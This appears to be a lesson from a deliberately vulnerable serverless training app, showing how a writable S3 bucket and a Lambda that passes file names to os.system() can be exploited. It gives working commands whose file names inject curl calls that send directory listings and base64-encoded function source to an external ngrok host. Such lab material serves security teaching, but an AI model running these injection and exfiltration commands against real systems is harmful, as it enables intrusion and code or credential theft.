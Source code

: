
# LESSON #4: Insecure Cloud Configuration

The DVSA is using cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipts is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-sdk, you can simply run the command: ```aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}```

![alt s3-upload](https://i.imgur.com/K3sE1pf.png)

*Note, that you won't be able to run ```ls``` with an account different thatn the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receript-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. 2018/12/24/{receipt-uuid}.txt.

2. So let's fake a receipt and see what happens. Using the aws-sdk we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?data="$(ls)" echo x.raw' --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

![alt ls](https://i.imgur.com/h9mw2qV.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: ```echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py```

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/lesson_06.md) or executing any other command.





